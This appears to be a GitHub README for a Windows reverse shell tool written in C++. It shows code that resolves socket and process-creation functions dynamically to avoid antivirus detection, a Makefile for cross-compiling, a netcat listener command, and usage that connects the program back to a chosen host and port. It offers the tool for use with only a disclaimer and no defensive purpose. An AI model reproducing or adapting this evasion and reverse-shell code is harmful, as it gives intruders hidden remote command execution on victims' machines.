 # Windows Reverse Shell
![detection](https://github.com/user-attachments/assets/157c1291-4489-4cce-914a-4829ac631f45)

## Avoiding  Detection
For avoiding detection I defined manually the "sketchy" functions so they can be loaded dynamically by kernel32.dll,and ws2_32.dll
```cpp
...
typedef SOCKET(WINAPI *pWSASocketA)(int, int, int, LPWSAPROTOCOL_INFOA, GROUP, DWORD);
typedef int(WINAPI *pconnect)(SOCKET, const sockaddr *, int);
typedef BOOL(WINAPI *pCreateProcessA)(LPCSTR, LPSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, BOOL, DWORD, LPVOID, LPCSTR, LPSTARTUPINFOA, LPPROCESS_INFORMATION);

int main(int argc, char const *argv[])

{
    if (argc == 3)
    {
        HMODULE hWS2_32 = GetModuleHandleW(L"ws2_32.dll");
        HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
        pWSASocketA fWSASocketA = (pWSASocketA)GetProcAddress(hWS2_32, "WSASocketA");
        pconnect fconnect = (pconnect)GetProcAddress(hWS2_32, "connect");
        pCreateProcessA fCreateProcessA = (pCreateProcessA)GetProcAddress(hKernel32, "CreateProcessA");
...
```
## Compile
Remember to set the proper compiler in the `Makefile`
### Example
```Makefile
CC= x86_64-w64-mingw32-g++
CFLAGS= -O2 -Wall -fstack-protector-all -fcf-protection=full
LDLIBS= -lws2_32
program: main.cpp
	${CC} ${CFLAGS} -o program main.cpp ${LDLIBS}
```
To compile just enter
```
make
```
## Running the reverse hell
Remember to have your listener ready
```
nc -lvnp 443
```
## Usage
```
./program.exe HOST PORT
```
### Example
```
./program.exe 127.0.0.1 443
```
If it connects it should output
```
[+] Connected
```
If not, it will keep waiting for a connection
```
[!] Couldn't connect, retrying...
[!] Couldn't connect, retrying...
[!] Couldn't connect, retrying...
```
## Warning
I'm not responsible for what you do with this program
